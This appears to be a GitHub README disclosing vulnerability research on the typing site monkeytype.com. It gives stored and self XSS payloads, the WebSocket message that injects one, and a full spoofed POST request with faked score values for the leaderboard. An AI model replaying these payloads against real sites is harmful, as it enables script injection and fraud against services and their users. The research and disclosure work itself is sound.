

```
                                        .="=.
                                    _/.-.-.\_     _
                                    ( ( o o ) )    ))
                                    |/  "  \|    //
                    .-------.        \'---'/    //
                    _|~~ ~~  |_       /`"""`\\  ((
                =(_|_______|_)=    / /_,_\ \\  \\
                    |:::::::::|      \_\\_'__/ \  ))
                    |:::::::[]|       /`  /`~\  |//
                    |o=======.|      /   /    \  /
                    `"""""""""`  ,--`,--'\/\    /
                                '-- "--'  '--'
                  Vulnerability Research by Tyler Butler 🐒 
```


# Banana Cannon 🍌
This repository contains vulnerability research on [monkeytype.com](https://monkeytype.com/), a popular typing-test application with a growing online community. Current research includes two cross-site scripting vulenrabilities and an authenticated bypass PoC exploit.


**Table of Contents**
- [Identified Vulnerabilities](#identified-vulnerabilities)
  - [Stored Cross-Site Scripting (XSS) via Tribe Chat](#stored-cross-site-scripting-xss-via-tribe-chat)
  - [Leaderboard Authenticated ByPass by Spoofing](#leaderboard-authenticated-bypass-by-spoofing)
  - [Self Cross Site Scripting (XSS) via Word History](#self-cross-site-scripting-xss-via-word-history)
- [Proof of Concept Exploits](#proof-of-concept-exploits)
  - [BananaCannon.py](#BananaCannon)

# Identified Vulnerabilities

> The following section describes publically disclosed vulnerabilities
## Stored Cross-Site Scripting (XSS) via Tribe Chat 


### Overview

The MonkeyType Tribe chat at https://dev.monkeytype.com/tribe is vulnerable to stored cross-site scripting through user comments and username. The research concludes that client-side input validation can be evaded by intercepting raw web socket traffic, and injecting payloads directly into message content. To do so, malicious users can enter a non-xss string in the chat field and send it to web server, then capture the web socket traffic with a proxy tool like BurpSuite, and finally modify the input to a XSS payload.

### Payload   

In this example, I used an `onclick` payload to demonstrate the capability. The final payload was ```test<svg/onclick=alert`xss`>```

**Socket Message**

```json
42["mp_chat_message",{"isSystem":false,"isLeader":true,"message":"test<svg/onclick=alert`xss`>","from":{"id":"i6ZO4keqlEgwQHY-AAAm","name":"pwnville"}}]
```


### To Reproduce

+ Configure [BurpSuite](https://portswigger.net/burp) to intercept browser traffic
+ Navigate to https://dev.monkeytype.com/tribe
+ Click on "create room"
+ Turn on BurpSuite proxy interception
+ Enter a new chat string
+ Intercept the web socket traffic, and chang the chat string to an XSS payload, example below.

```json
42["mp_chat_message",{"isSystem":false,"isLeader":true,"message":"test<svg/onclick=alert`xss`>","from":{"id":"i6ZO4keqlEgwQHY-AAAm","name":"pwnville"}}]
```


### Disclosure Timeline 

+ **May 27th, 2021**: Vulnearbility Discovered and Disclosed on Github per guidance as issue [#1476](https://github.com/Miodec/monkeytype/issues/1476)
+ **May 27th, 2021**: Patch issued


## Leaderboard Authenticated ByPass by Spoofing 

### Overview 

Monkeytype.com is vulnerable to authenticated bypass by spoofing in the leaderboard. Users can bypass leaderboard controls and inject any object they want into the leaderboard by spoofing post requests to `/checkLeaderboards`. Malicious users can send specially crafted post requests and inject any user they want to the top of the leaderboard with any value words per minuet they want. Server does invalidate requests with cross-site scripting (XSS) payloads, therefore I believe this is not vulnerable to XSS.

### Payload

```yaml
POST /checkLeaderboards HTTP/2
Host: us-central1-monkey-type.cloudfunctions.net
Content-Length: 750
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="90"
Authorization: Bearer 
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: https://monkeytype.com
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://monkeytype.com/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"data":{"uid":"aXi5udatSndUhoQR5pUtR6GpvGF3","lbMemory":{"time15":{"global":null,"daily":null},"time60":{"global":null,"daily":null}},"name":"pwnville_foo2<script>console.log","banned":null,"verified":null,"discordId":null,"result":{"wpm":200.00,"rawWpm":200.00,"correctChars":250,"incorrectChars":6,"allChars":250,"acc":92,"mode":"time","mode2":15,"quoteLength":-1,"punctuation":false,"numbers":false,"timestamp":1622147912060,"language":"english","restartCount":0,"incompleteTestSeconds":0,"difficulty":"normal","testDuration":15.001134999999515,"afkDuration":0,"blindMode":false,"theme":"9009","tags":[],"consistency":83.22,"keyConsistency":45.56,"funbox":"none","bailedOut":false,"customText":null,"uid":"aXi5udatSndUhoQR5pUtR6GpvGF3","id":"vZkPA1dmzeUvaGQPkE4Z"}}}
```

> After making the above post request, my user was added to the top of the leaderboard  




### Vulnerable Components 

The root cause of the stored XSS vulnerability is the method for which firebase data is input into the leaderboards table. On line [126](https://github.com/Miodec/monkeytype/blob/974088926fbe42de1c7c82a1a8902a103c18b91f/src/js/elements/leaderboards.js#L126) in leaderboard.js, 


```html
$("#leaderboardsWrapper table.daily tbody").append(`
          <tr>
          <td>${
            dindex === 0 ? '<i class="fas fa-fw fa-crown"></i>' : dindex + 1
          }</td>
          <td ${meClassString}>${entry.name}</td>
          <td class="alignRight">${entry.wpm.toFixed(
            2
          )}<br><div class="sub">${entry.acc.toFixed(2)}%</div></td>
          <td class="alignRight">${entry.raw.toFixed(2)}<br><div class="sub">${
            entry.consistency === "-" ? "-" : entry.consistency.toFixed(2) + "%"
          }</div></td>
          <td class="alignRight">${entry.mode}<br><div class="sub">${
            entry.mode2
          }</div></td>
          <td class="alignRight">${moment(entry.timestamp).format(
            "DD MMM YYYY"
          )}<br><div class='sub'>${moment(entry.timestamp).format(
            "HH:mm"
          )}</div></td>
        </tr>
```
## Self Cross Site Scripting (XSS) via Word History


### Overview   

User input is interpreted by the browser unsanitized when entered into the typing challenge. Once the challenge is over and the user opens the "word history" tab, hovering over the mispelled words will cause the browser to interpret the payload as valid injected code. Under current limitations significant code execution cannot be caused due to character limit, however more research should be done to prove impact. This occurs in default settings.

### To Reproduce 

For a XSS payload, just start typing the following upon immediatly starting a new typing test ```"><svg/onclick=alert1`>```

+  Start a new typing challenge
+  Spell the first word correctly, then immediately after the first word and with no spaces after, terminate the string with ">
+  Enter payload
+  Once the timer is complete, select the option to view word history
+  Hover over the misspelled word, and the payload will execute


# Proof of Concept Exploits  
## BananaCannon
### What is it? 
BananaCannon is a quick proof of concept to show how any user can enter the daily and global leaderboards of [MonkeyType](https://monkeytype.com) by sending carefully crafted post requests to the firebase server. 

### How does it Work?  

Monkey see works by creating a new post request and changes the `wpm`, `rawwpm`, `correctChars`, `incorrectChars`, and `allChars` parameters. Back-end logic checks to make sure that the wpm matches the total number of correctChars, so it's important to keep these consistent. For example, to create a new score with 195 words per minuet, the following parameters were used.

**Mode 15**

```json
"wpm":195.17,
"rawWpm":195.17,
"correctChars":242,
"incorrectChars":1,
"allChars":243,
```

**Mode 60**

```json
"wpm":190.79,
"rawWpm":191.79,
"correctChars":950,
"incorrectChars":0,
"allChars":950,
```


